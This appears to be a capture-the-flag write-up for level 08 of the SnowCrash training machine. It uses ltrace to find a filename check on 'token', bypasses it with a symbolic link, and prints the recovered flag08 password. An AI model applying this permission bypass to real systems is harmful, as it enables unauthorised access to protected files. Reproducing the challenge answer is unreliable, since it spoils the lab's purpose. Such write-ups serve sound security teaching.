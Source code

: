 # Level08
## Description
The level 08 user has an executable **level08** and a token file,  which user is `flag08`.


```bash
ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                                          = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                                      = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

## Solution
- Thanx to ltrace we know that we need to somehow change the name of token .<br>However we don't have the permision on the token file.

- We need to create a symbolic link to token to use token in param of **./level08**.

``` bash
level08@SnowCrash:/tmp$ ln -s ~level08/token test
level08@SnowCrash:/tmp$ cd
level08@SnowCrash:~$ ./level08 /tmp/test
quif5eloekouj29ke0vouxean
```

- We found the password of `flag08`, use it to connect to flag08 and execute `getflag`.
